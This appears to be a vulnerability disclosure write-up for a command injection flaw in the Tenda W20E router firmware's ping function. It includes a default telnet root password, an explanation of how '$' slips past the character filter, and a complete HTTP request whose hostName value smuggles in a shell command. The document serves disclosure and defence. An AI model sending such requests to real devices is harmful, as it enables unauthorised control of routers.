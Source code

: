 # Tenda W20E Command injection vulnerability
## Overview
- Manufacturer's website information：https://www.tenda.com.cn/
- Firmware download address ：https://www.tenda.com.cn/product/download/W20E.html

## Vulnerability information
There is a Command injection vulnerability in tenda W20E V16.01.0.6(3392), which can execute arbitrary command in route system.
## Affected version

![](pic/1.png "")

Figure shows the latest firmware ：V16.01.0.6(3392)

## Vulnerability details
open telnet  http://192.168.0.1/goform/telnet
telnet admin/password is root/ Fireitup

using ida to analysis httpd, in function do_ping_action:

![](pic/code1.png "")

The program passes the contents obtained by the hostName parameter to hostname.   
There is some filtering of parameters is judged by if, but we can bypass it, which is explained in the next section.  
Then, copy the content of hostname through the strncpy function into cfg.hostname.  
And cfg is called by function cmd_get_ping_output().  
In function cmd_get_ping_output：

![](pic/code2.png "")

Then, format the matching content of cfg.hostname through the snprintf function into new_cmd_buf.  
The new_cmd_buf is called by popen().  
There is a command injection vulnerability.   
The corresponding web page is as follws:

![](pic/web.png "")

## Vulnerability exploitation condition
Need to get cookie after logging in to execute the attack.
In the judgment of If, you can see that the characters(; | &) are filtered, and if these characters are included, code will goto fail.
But we can use '$' to do Command injection.  
![](pic/code1.png "")
The functional data packets are as follows, and we will use this to construct poc.  
```http
POST /goform/module?1668695093889 HTTP/1.1
Host: 192.168.0.1
Content-Length: 87
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html?v=3392
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=70ebc4f9c9d22827a5874d1bb6f06abddwdvmy; bLanguage=cn; sessionid=W20Ev5:0.167.3:6b0846
Connection: close

{"setFixTools":{"networkTool":1,"hostName":"test$(touch /tmp/test0)","packageSize":32}}
```

## Recurring vulnerabilities and POC
In order to reproduce the vulnerability, the following steps can be followed:
1. Connect physical devices
2. Attack with the POC

The poc and reproduction results are as follows:

![](pic/effect.png "")

Figure shows POC attack effect, the file test0 is created.


## CVE-ID
unsigned